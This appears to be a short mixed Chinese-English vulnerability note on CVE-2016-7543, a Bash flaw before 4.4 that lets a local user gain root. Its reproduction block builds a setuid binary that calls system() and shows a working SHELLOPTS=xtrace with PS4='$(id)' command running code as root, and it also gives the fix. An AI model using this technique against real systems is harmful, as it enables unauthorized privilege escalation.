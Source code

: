 # CVE-2016-7543
---
##threat type
  local  

---

##vulnerability type  
  输入验证.

---
## introduction
  Bash 4.4之前的版本中存在安全漏洞。本地攻击者可借助特制的SHELLOPTS和PS4环境变量利用该漏洞以root权限执行任意命令。
  The recent bash 4.4 patched an old attack vector regardingspecially crafted SHELLOPTS+PS4 environment variables against bogus setuid binaries using system()/popen().

---
##recurrence
```sh
# gcc -xc - -otest <<< 'int main() { setuid(0); system("/bin/date"); }'
# chmod 4755 ./test
# ls -l ./test
-rwsr-xr-x. 1 root root 8549 Sep 10 18:06 ./test
# exit
$ env -i SHELLOPTS=xtrace PS4='$(id)' ./test #xtrace+PS4可以在带有system的二进制中执行额外的命令
uid=0(root)
Sat Sep 10 18:06:36 WET 2016
```

---
##exploitaion  
  使用了system/popen+的带有S权限的二进制程序，我们可以利用SHELLOPTS+PS4以root权限执行任意命令。

---
## fix
  获取PS4的值之前，判断euid是否为0.
